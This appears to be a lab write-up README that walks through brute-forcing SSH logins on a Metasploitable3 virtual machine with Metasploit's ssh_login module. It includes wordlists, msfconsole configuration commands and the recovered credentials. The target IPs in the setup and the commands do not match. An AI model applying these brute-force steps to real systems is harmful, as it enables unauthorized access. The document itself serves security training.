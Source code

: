 # Phase 1: Setup and Compromise the SSH Service

Task 1.1: Use Kali Linux tool Metasploit to compromise the SSH service Using Metasploit

## Objective
Use the `auxiliary/scanner/ssh/ssh_login` module in Metasploit to brute-force SSH credentials on the Metasploitable3 target machine.
The objective of this task is to use Metasploit's ssh_login (`auxiliary/scanner/ssh/ssh_login`) module to perform a brute-force attack on the SSH service of a vulnerable machine (the Metasploitable3 target machine). The goal is to discover valid username and password combinations that allow unauthorized access to the system.

---

## 🖥️ Step 1: Setup the Target Environment

- **Attacker Machine:** Kali Linux (on UTM)
- **Victim Machine:** Metasploitable3 Ubuntu 14.04 (on UTM)
- **Target IP Address:** `192.168.100.10`
- **Target SSH Port:** `22` (default)

---

## Step 2: Create Wordlist Files

![user.txt & pass.txt files creation](screanshots/filesUserAndPass.png)

use ``` nano [name of the text file].txt ``` to edit the content of the file, add random usernames and passwords.

### users.txt content

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt contant
```text
password
123456
toor
vagrant
aishapass
testpass
```
![files contant](screanshots/filesContant.png)

## Step 3: Load the SSH Login Module

### Launch Metasploit:
```text
sudo msfconsole
```
### Load the SSH login module:
```text
use auxiliary/scanner/ssh/ssh_login
```

## Step 4: Configure the Module

### Set the Target Host, Username & Password Files, and Improve Brute-Force Performance:
```text
set RHOSTS 192.168.64.7
set USER_FILE /home/kali/ssh-brute/users.txt
set PASS_FILE /home/kali/ssh-brute/pass.txt
set BRUTEFORCE_SPEED 5
set THREADS 4
set VERBOSE true
```
![set](screanshots/Settters.png)

## Step 5: Run the Attack
```text
run
```

## Results:
![SSH Brute-force Result](screanshots/ssh-results.jpg)

### The Metasploit ssh_login module successfully brute-forced SSH credentials on the Metasploitable3 target.

* Target IP: 192.168.64.7

* SSH Service was accessible on port 22

- Valid credentials found:
  - **Username:** `vagrant`
  - **Password:** `vagrant`











